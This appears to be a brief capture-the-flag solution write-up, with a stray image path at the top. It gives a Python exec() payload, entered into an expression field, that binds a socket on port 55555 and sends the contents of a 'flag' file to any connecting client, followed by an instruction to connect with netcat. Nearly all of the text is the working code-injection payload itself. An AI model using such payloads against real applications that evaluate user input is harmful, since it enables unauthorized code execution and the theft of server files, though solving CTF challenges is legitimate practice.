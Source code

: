 # Solution

Input this as an expression:

exec('import socket; s = socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(("0.0.0.0", 55555)); s.listen(1); c = s.accept()[0]; c.send(open("flag", "rb").read())')

Press Enter.
Then connect to server via netcat: "nc host 55555". It will send us a flag.

